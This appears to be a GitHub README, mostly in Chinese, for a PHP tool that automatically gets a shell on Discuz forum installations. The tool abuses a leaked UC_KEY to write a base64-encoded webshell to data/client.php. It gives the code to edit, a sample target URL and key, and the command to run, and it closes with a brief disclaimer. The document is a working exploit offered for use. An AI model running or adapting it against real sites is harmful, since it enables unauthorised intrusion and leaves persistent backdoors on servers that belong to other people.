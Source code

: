 #### Discuz 全自动 GetShell

打开 `dzhack.php`, 找到 

```
$webshell = '<?php phpinfo(); ?>';
 
list ($status, $data) = $dz->hack (
   'http://ubuntu64/dz/',
   'K856C548X2xaTcDdc248I1pc57gdq4vdL2SdH3ifGd4a0ec6UdcfX0B7m9Ubrcs4',
   'file_put_contents("data/client.php", base64_decode ("' . base64_encode ($webshell) . '"));'
   );
```

先把第一行 `$webshell` 的内容改了，不需要考虑编码问题，

然后修改 `hack` 函数的参数，第一个为 discuz 的起始路径，第二行为你找到的 UC_KEY

然后执行 `php dzhack.php`,

会在 `data/client.php` 下面生成一个 webshell,

##### Legal Disclaimer

Using this tool is legit but hacking may not be. The author does not take any responsibility for such activities.

